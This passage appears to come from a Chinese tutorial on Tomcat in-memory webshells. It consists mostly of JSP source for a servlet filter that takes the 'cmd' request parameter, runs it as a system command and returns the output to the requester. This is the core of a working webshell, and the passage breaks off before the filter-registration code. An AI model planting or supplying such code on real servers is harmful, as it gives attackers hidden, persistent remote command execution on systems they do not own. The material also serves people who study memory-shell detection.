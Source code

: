 ![image.png](Tomcat内存马基础入门.assets/2023_05_19_10_26_54_ZmCQteiB.png)
### JSP
```java
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import = "org.apache.catalina.Context" %>
<%@ page import = "org.apache.catalina.core.ApplicationContext" %>
<%@ page import = "org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import = "org.apache.catalina.core.StandardContext" %>
<%@ page import = "javax.servlet.*" %>
<%@ page import = "java.io.IOException" %>
<%@ page import = "java.lang.reflect.Constructor" %>
<%@ page import = "java.lang.reflect.Field" %>
<%@ page import = "java.util.Map" %>
<!-- tomcat8/9 我这里测试环境是tomcat9，请根据实际情况更改引入的包-->
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>

<%
  class filterDemo implements Filter {
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
      String cmd = servletRequest.getParameter("cmd");
      if (cmd!= null) {
        Process process = Runtime.getRuntime().exec(cmd);
        java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                new java.io.InputStreamReader(process.getInputStream()));
        StringBuilder stringBuilder = new StringBuilder();
        String line;
        while ((line = bufferedReader.readLine()) != null) {
          stringBuilder.append(line + '\n');
        }
        servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
        servletResponse.getOutputStream().flush();
        servletResponse.getOutputStream().close();
        return;
      }
      filterChain.doFilter(servletRequest, servletResponse);
    }

```